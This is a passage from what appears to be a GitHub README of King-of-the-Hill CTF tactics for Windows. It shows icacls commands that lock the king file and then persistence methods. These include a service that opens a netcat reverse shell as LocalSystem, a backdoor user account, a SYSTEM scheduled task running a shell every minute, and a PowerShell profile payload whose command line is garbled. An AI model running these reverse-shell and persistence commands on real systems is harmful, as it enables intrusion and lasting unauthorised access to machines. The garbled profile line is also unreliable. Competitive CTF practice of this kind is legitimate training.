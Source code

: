 > icacls king.txt /deny Everyone:(W)

This command will basically deny write permission ("W") for the group "Everyone" on the file "king.txt"

Note that you can deny write permission for the Administrator user as well.

> icacls king.txt /deny Administrator:(M)

You can use icacls in a loop too, it's up to your imagination :D

Well, I think this is enough for king protection on windows koth machines (until now).

### Persistence

I think koth players rarely use persistence on windows machines, anyway I'll put some.

- Service Execution

Creating an malicious service.

```
sc create fsociety binpath= "C:\nc.exe yourIP PORT -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
```

- New Account

Creating New account.

> net user mrpwn mrpwnpassword123! /add

- SchTasks

Creating a new scheduled task that will launch shell.cmd every minute.

```
schtasks /create /sc minute /mo 1 /tn "yourtask" /tr C:\shell.cmd /ru "SYSTEM"
```

- Powershell Profile Persistence

As soon as the user starts a new powershell, the command will be executed.

```
$PROFILE | select *
echo "C:\temp\nc.exe YourIP Port -e powershell" > C:\temp\payload.exe" > $PROFILE
cat $PROFILE
```

You can also use C2 (Command & Control).

### Monitor Commands

- ```htop || top```

- ```ps -efH```

- ```pspy64```

#### This repository still has more things to be added.
